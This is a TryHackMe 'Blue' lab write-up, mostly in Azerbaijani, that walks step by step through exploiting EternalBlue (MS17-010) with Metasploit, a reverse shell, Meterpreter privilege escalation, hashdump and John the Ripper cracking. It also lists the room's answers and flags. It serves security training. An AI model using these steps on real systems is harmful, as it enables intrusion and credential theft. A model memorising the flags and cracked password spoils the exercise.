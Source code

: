 # Lab: Blue – TryHackMe

**Məqsəd:** EternalBlue (MS17-010) zəifliyindən istifadə edərək foothold əldə etmək, post-exploitation, hash dump və flag toplamaq.

---

## Task 1: Recon

**Machine və AttackBox-u işə sal**  
- “Start Machine” və “Start AttackBox” düymələrini bas.  
- Split-Screen view istifadə et.  

**Port Scan:**  

nmap -sV -p 1-1000 -sC -T4 <target-ip>
Cavab: Açıq portlar 1000-dən aşağı → 3

![nmap]Screenshot: (screenshots/nmap.png)

Vulnerability identification:

Cavab: ms17-010

## Task 2: Gain Access
Metasploit-i işə sal:

bash
Copy code
msfconsole
Exploit modulunu seç:

bash
Copy code
use exploit/windows/smb/ms17_010_eternalblue
Cavab: exploit/windows/smb/ms17_010_eternalblue

Əsas parametrin set edilməsi:

bash
Copy code
set RHOSTS <target-ip>
Cavab: RHOSTS

Screenshot: (Rhosts.png)

Payload təyin et:

bash
Copy code
set payload windows/x64/shell/reverse_tcp
Exploit-i işə sal:

bash
Copy code
exploit
Shell açılacaq




## Task 3: Escalate
Əvvəlki shell-i background et:

CTRL + Z

Shell to Meterpreter post-modulu:

bash
Copy code
use post/multi/manage/shell_to_meterpreter
Cavab: post/multi/manage/shell_to_meterpreter

Əsas parametrin set edilməsi:

bash
Copy code
set SESSION 1
Cavab: SESSION

Post modulunu çalışdır:

bash
Copy code
exploit
Shell meterpreter-ə çevriləcək



SYSTEM hüququnu yoxlama:

bash
Copy code
getsystem
shell
whoami
Cavab: NT AUTHORITY\SYSTEM


Process migration:

bash
Copy code
ps
migrate <PROCESS_ID>
SYSTEM hüququ ilə prosesə migrate et



## Task 4: Cracking
Password hash-ləri dump et:

bash
Copy code
hashdump
Cavab: Jon



Hash-i fayla yaz:

bash
Copy code
nano hashjon.txt
Hash-i hashjon.txt faylına yapışdır

John the Ripper ilə qır:

bash
Copy code
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashjon.txt
Cavab: alqfna22

Screenshot: (screenshots/john.png)

## Task 5: Find Flags  

Flag1 – System root:

bash
Copy code
cd /
cat flag1.txt
Cavab: flag{access_the_machine}

Screenshot: (screenshots/flag1.png)

Flag2 – Windows parol qovluğu:

bash
Copy code
cd windows/System32/config
cat flag2.txt
Cavab: flag{sam_database_elevated_access}

Screenshot: (screenshots/flag2.png)

Flag3 – Administrator Documents (Jon qovluğu):

bash
Copy code
cd /Users/Jon/Documents
cat flag3.txt
Cavab: flag{admin_documents_can_be_valuable}


Screenshot: (screenshots/flag3.png)

